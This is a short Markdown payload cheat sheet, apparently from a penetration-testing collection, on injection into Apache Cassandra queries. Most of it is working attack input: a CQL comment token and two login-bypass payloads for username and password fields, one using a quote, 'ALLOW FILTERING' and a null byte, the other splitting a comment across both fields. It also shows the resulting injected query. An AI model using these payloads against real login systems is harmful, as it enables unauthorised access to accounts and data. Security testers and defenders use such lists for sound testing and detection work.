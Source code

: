 # Cassandra Injection

> Apache Cassandra is a free and open-source distributed wide column store NoSQL database management system

## Summary

* [Cassandra comment](#cassandra-comment)
* [Cassandra - Login Bypass](#cassandra---login-bypass)
  * [Login Bypass 0](#login-bypass-0)
  * [Login Bypass 1](#login-bypass-1)
* [References](#references) 

## Cassandra comment

\`\`\`sql
/* Cassandra Comment */
\`\`\`

## Cassandra - Login Bypass

### Login Bypass 0

\`\`\`sql
username: admin' ALLOW FILTERING; %00
password: ANY
\`\`\`

### Login Bypass 1

\`\`\`sql
username: admin'/*
password: */and pass>'
\`\`\`

The injection would look like the following SQL query

\`\`\`sql
SELECT * FROM users WHERE user = 'admin'/*' AND pass = '*/and pass>'' ALLOW FILTERING;
\`\`\`

## References

